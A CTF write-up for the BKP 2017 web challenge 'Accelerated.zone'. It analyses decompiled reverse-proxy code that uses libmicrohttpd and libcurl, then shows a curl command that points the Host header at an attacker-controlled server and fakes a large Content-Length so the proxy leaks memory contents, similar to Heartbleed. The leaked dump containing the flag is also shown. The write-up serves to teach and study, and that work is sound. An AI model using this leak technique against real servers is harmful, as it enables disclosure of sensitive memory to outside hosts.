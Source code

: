 +++
date = "2017-02-26T21:39:54-08:00"
title = "BKP 2017 - Accelerated.zone"
tags = ["CTF", "Web"]
+++

Bleeding again.

<!--more-->

# Problem
We were given a reverse proxy at http://accelerated.zone:8000 and the [binary][1] behind it.  It responds with
`Get better cookies bro` if we send a plain GET request to it.  Looks like it expects some secret cookies.  Trying to
access random pages reveals the actual web server was running at port 7733.  Nothing interesting at this point.  Let's
look at the binary file instead.

Open the binary using IDA we can see it uses [libmicrohttpd][2] to serve incoming HTTP requests and [libcurl][3] to
communicate with actual web server.  The two functions that we are interested are `handle_request` and `make_request`.

In `handle_request`, it reads some properties from incoming HTTP request, and passed them to `make_request`.

```
......
  LODWORD(v9) = MHD_get_connection_info(a3, 2LL);
  v22 = *(_QWORD *)v9;
  inet_ntop(2, (const void *)(*(_QWORD *)v9 + 4LL), &buf, 0x10u);
  LODWORD(v10) = MHD_lookup_connection_value(a3, 1LL, "Host");
  host = v10;
  if ( *a5 != &dummy_6361 )
    _printf_chk(1LL, "[%s:%d] %s %s %s %s\n", &buf, *(_WORD *)(v22 + 2), method, a3a);
  if ( strcmp(method, "GET") || (result = strcmp(method, "POST")) != 0 )
  {
    if ( *a5 == &dummy_6361 )
    {
      if ( !strcmp(method, "POST") )
      {
        LODWORD(v13) = MHD_lookup_connection_value(a3, 1LL, "Content-Length");
        length = atol(v13);
      }
      else
      {
        v6 = 0LL;
        length = 0;
      }
      LODWORD(v15) = MHD_lookup_connection_value(a3, 1LL, "Cookie");
      cookies = v15;
      a7 = 500LL;
      MHD_suspend_connection(a3);
      v17 = method;
      v18 = make_request(host, method, a3a, v6, length, cookies, &a7);
      MHD_resume_connection(v7, v17);
      v19 = MHD_queue_response(v7, (unsigned int)a7, v18);
      MHD_destroy_response(v18);
      result = v19;
    }
    else
    {
      *a5 = &dummy_6361;
      result = 1;
    }
  }
......
```

In `make_request`, it constructs curl request using data from incoming request.

```
......
  v11 = open_memstream(&bufloc, &sizeloc);
  LODWORD(v12) = curl_easy_init(&bufloc, &sizeloc);
  v13 = v12;
  curl_easy_setopt(v12, 10002LL, ((unsigned __int64)&v23 + 7) & 0xFFFFFFFFFFFFFFF0LL);// set host
  curl_easy_setopt(v13, 181LL, 1LL);            // protocol=1 (http only)
  curl_easy_setopt(v13, 10001LL, v11);          // output (FILE* or void*)
  curl_easy_setopt(v13, 13LL, 5LL);             // timeout = 5s
  curl_easy_setopt(v13, 3LL, 7733LL);           // port = 7733
  if ( v7 )
  {
    curl_easy_setopt(v13, 10015LL, v7);         // post static input fields
    curl_easy_setopt(v13, 60LL, v22);           // size of post data
  }
  if ( v8 )
    curl_easy_setopt(v13, 10022LL, v8);         // set cookie
  v14 = curl_easy_perform(v13);
  fclose(v11);
  if ( v14 )
  {
    LODWORD(v15) = curl_easy_strerror((unsigned int)v14);
    _fprintf_chk(stderr, 1LL, "curl_easy_perform() failed: %s\n", v15);
    *v23 = 500LL;
    LODWORD(v16) = MHD_create_response_from_buffer(
                     54LL,
                     (__int64)"<html><title>Error!</title><h1>Error! Bad!</h1></html>",
                     0LL);
    v17 = "text/html";
    v18 = v16;
LABEL_8:
    MHD_add_response_header(v18, "Content-Type", v17);
    goto LABEL_9;
  }
  curl_easy_getinfo_err_long();
  curl_easy_getinfo((__int64)v13, 0x200002LL, (__int64)&v23);// get response code
  LODWORD(v19) = MHD_create_response_from_buffer(sizeloc, (__int64)bufloc, 1LL);
......
```

The first attempt we tried was to ask the proxy to access a page that will redirect to a `file://` URI, so that
we might be able to access files in the proxy server.  However, it didn't work.  It turns out for the redirection to work,
we need `CURLOPT_FOLLOWLOCATION` and correct `CURLOPT_REDIR_PROTOCOLS`.  `file://` protocol was by default disabled for
security reasons.

The other thing that caught my eyes was that the proxy reads `Content-Length` header and used that value as the data size
in the curl request.  That means I can fake a large `Content-Length` to the proxy, it will send me a bunch of data in the
post request, which potentially contains senstive information.  This is similar to [SSL Heartbleed][4], and recent
[Cloudbleed][5][^1].

```
curl -H 'Host: server-that-i-control' -H 'Content-Length: 123456' \
  --data 'a=a' http://accelerated.zone:8000
```

That was it.  I got the flag after sending several requests and eyeballed request dump for flag string.

```
$ strings postdata.bin 
a=a
/q?erjg
HTTP/1.1 200 OK
Date: Sat, 25 Feb 2017 23:42:56 GMT
Server: Apache/2.4.10 (Debian)
X-Powered-By: PHP/7.0.16
Content-Length: 63
Content-Type: text/html; charset=UTF-8
FLAG{ISwearIWroteThisChallengeWeeksAgo}Get better cookies bro.  # Here you are!
HTTP
HTTP
a-certif5
/etc/ssl/certs/ca-certificates.crt
/etc/ssl/certs
ed.zone:%
http://54.200.59.30/
rcmd
HTTP
HTTP
/etc/ssl/certs/ca-certificates.crt
/etc/ssl/certs
obHN&nU?
>a2U0*
HTTP/1.1 100 Continue
```

[1]: /bkp-2017/acc_zone_release.tgz
[2]: https://www.gnu.org/software/libmicrohttpd/manual/html_node/index.html#SEC_Contents
[3]: https://curl.haxx.se/libcurl/
[4]: https://en.wikipedia.org/wiki/Heartbleed
[5]: https://en.wikipedia.org/wiki/Cloudbleed


[^1]: As you can see from the flag, the author wrote this challenge before Cloudbleed :).
